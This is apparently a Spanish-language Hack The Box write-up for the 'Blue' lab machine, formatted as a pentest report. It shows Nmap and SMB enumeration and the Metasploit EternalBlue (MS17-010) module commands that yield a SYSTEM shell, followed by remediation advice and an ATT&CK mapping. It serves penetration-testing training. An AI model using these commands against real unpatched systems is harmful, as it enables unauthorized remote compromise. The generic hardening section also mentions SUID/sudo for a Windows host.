





# Informe Técnico de Seguridad Ofensiva: Blue


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Blue** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** MS17-010 EternalBlue (SMBv1 RCE)
* **Vector de Elevación de Privilegios:** N/A - Exploit otorga NT AUTHORITYSYSTEM directamente
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Blue |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | CVE-2017-0144 |
| **Vector de Entrada** | MS17-010 EternalBlue (SMBv1 RCE) |
| **Mecanismo de Escalada** | N/A - Exploit otorga NT AUTHORITYSYSTEM directamente |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: MS17-010 EternalBlue (SMBv1 RCE)
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: N/A - Exploit otorga NT AUTHORITYSYSTEM directamente
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

CVE(s): CVE-2017-0144
GTFOBins/Abusos (sudo/SUID): N/A
Initial Access Exploit (Ingreso): MS17-010 EternalBlue (SMBv1 RCE)

Privilege Escalation (Escalada): N/A - Exploit otorga NT AUTHORITYSYSTEM directamente


| Campo | Detalle |
| --- | --- |
| Nombre | Blue |
| Plataforma | Hack The Box |
| OS | Windows 7 Professional 7601 SP1 |
| Dificultad | Easy |
| CVE | CVE-2017-0144 (MS17-010) |
| Initial Access | EternalBlue SMBv1 RCE |
| Priv Esc | N/A - Shell directa como SYSTEM |

---

## Resumen

Blue es una maquina Windows Easy que expone SMBv1 vulnerable a MS17-010 (EternalBlue). Esta vulnerabilidad permite ejecucion remota de codigo a nivel de kernel, otorgando acceso directo como NT AUTHORITYSYSTEM sin escalada adicional. Es la misma vulnerabilidad que utilizo el ransomware WannaCry en 2017.

---

## 1. Reconocimiento

Escaneo inicial con Nmap. Se detectan 3 puertos TCP principales: **135** (RPC), **139** (NetBIOS), **445** (SMB).



El hostname identificado es **HARIS-PC**:



Sistema operativo: **Windows 7** Professional 7601 SP1:



---

## 2. Enumeracion SMB

Con SMB activo en el puerto 445, enumeramos recursos compartidos con `smbclient -L //10.10.10.40 -N`. Se identifican **5 shares** accesibles:



### Deteccion de vulnerabilidad

Verificamos si SMB es vulnerable con `nmap --script smb-vuln-ms17-010 -p 445 10.10.10.40`. Resultado: **VULNERABLE a MS17-010** (CVE-2017-0144), RCE en SMBv1:



---

## 3. Explotacion (Initial Access)

**Contexto:** Esta es la misma vulnerabilidad que uso el ransomware **WannaCry** (mayo 2017). El exploit EternalBlue fue desarrollado por la NSA y filtrado por Shadow Brokers.

Explotamos con Metasploit:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
run
```

El exploit opera a nivel de kernel. La shell obtenida es directamente **NT AUTHORITYSYSTEM** (maximo privilegio). No se requiere escalada:


---

## 4. Flags

### User flag

`C:\Users\haris\Desktop\user.txt`:


### Root flag

`C:\Users\Administrator\Desktop\root.txt`:


---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (CVE-2017-0144).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (MS17-010 EternalBlue (SMBv1 RCE)) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (N/A - Exploit otorga NT AUTHORITYSYSTEM directamente) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
